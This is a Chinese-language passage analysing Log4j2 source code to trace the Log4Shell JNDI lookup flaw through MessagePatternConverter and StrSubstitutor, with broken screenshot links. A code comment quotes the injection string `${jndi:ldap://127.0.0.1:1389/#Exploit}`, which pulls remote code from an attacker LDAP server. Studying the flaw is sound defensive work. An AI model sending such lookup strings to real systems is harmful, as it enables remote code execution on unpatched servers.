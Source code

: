 在编号8也即是MessagePatternConverter对象

通过PatternFormatter.class的format方法

```
public void format(final LogEvent event, final StringBuilder buf) {
    if (this.skipFormattingInfo) {
        this.converter.format(event, buf);
    } else {
        this.formatWithInfo(event, buf);
    }

}
```

来到了MessagePatternConverter的format方法,也是核心的部分

![image-20220222211419257](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222211419257.png)

关键代码

```
if (this.config != null && !this.noLookups) {
    for(int i = offset; i < workingBuilder.length() - 1; ++i) {
    	//if判断是否以${开头
        if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
        	//这里截取value,结果是${jndi:ldap://127.0.0.1:1389/#Exploit}
            String value = workingBuilder.substring(offset, workingBuilder.length());
            workingBuilder.setLength(offset);
            workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
        }
    }
}
```

随后跟进replace方法

```
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    } else {
        StringBuilder buf = new StringBuilder(source);
        return !this.substitute(event, buf, 0, source.length()) ? source : buf.toString();
    }
}
```

跟进substitute,跟进两次substitute函数最后来到

![image-20220222211806571](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222211806571.png)

简单来说，pos为当前字符串头指针，prefixMatcher.isMatch只负责匹配 `${` 两个字符。![image-20220222213021167](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222213021167.png)

后续的处理中, 通过多个 if-else 来匹配 `:-` 和 `:\-` . 
